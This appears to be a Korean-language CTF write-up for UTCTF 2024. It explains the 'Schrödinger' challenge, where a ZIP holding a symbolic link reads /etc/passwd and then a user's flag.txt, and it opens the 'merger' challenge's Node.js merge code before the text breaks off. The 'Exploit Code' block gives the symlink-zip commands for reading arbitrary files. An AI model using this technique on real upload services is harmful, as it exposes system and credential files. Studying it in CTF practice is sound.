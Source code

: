 http://betta.utctf.live:5422    
       
주어지는 소스코드는 없고, ZIP 파일을 업로드하면 ZIP 파일 내부에 존재하는 파일을 읽어 내용을 보여준다.     
임의의 파일을 생성해 심볼릭 링크를 걸고 ZIP으로 압축해주면, 압축 해제 후 파일을 읽을 때 심볼릭 링크 경로의 파일 내용을 읽어오게 된다.          
      
문제 설명에도 나와있듯이 `홈 디렉터리`에 `flag.txt` 파일이 존재한다고 하여 유저 이름을 먼저 알아내야한다.     
      
<img src="/assets/images/ctf/2024/ut/Schrödinger/etcpassword.jpg" width="700px">      

```bash
ln -s /etc/passwd f
zip --symlinks etcpasswd.zip f      
```     
심볼릭 링크를 걸어 ZIP 파일을 생성하고, 파일을 업로드하면 `/etc/passwd` 파일 내용을 볼 수 있다.    
일반 유저는 UID, GID 값이 1000에서 시작하기에 `copenhagen` 유저의 홈 디렉터리 안에 `flag.txt`가 있음을 유추할 수 있다.     
      
<img src="/assets/images/ctf/2024/ut/Schrödinger/flag.jpg" width="700px">                   
       
```bash
ln -s /home/copenhagen/flag.txt flag
zip --symlinks flag.zip flag
```
심볼링 링크 경로를 `/home/copenhagen/flag.txt`로 변경한 후, 이전과 동일하게 ZIP 파일을 업로드 하면 `FLAG`를 획득할 수 있다.    
       
## Exploit Code    
```bash
ln -s /etc/passwd f
zip --symlinks etcpasswd.zip f

ln -s /home/copenhagen/flag.txt flag
zip --symlinks flag.zip flag
```       
       
## Flag
utflag{No_Observable_Cats_Were_Harmed}    
              
<a id="merger"></a>   
         
# merger        
       
143 solved / 778 pts        
              
Tired of getting your corporate mergers blocked by the FTC? Good news! Just give us your corporate information and let our unpaid interns do the work!

By Samintell (@samintell on discord)

http://guppy.utctf.live:8725
              
```javascript
function isObject(obj) {
    return typeof obj === 'function' || typeof obj === 'object';
}

var secret = {}

const { exec } = require('child_process');

process.on('message', function (m) {
    let data = m.data;
    let orig = m.orig;
    for (let k = 0; k < Math.min(data.attributes.length, data.values.length); k++) {
        if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
            for (const key in data.values[k]) {
                orig[data.attributes[k]][key] = data.values[k][key];
            }
```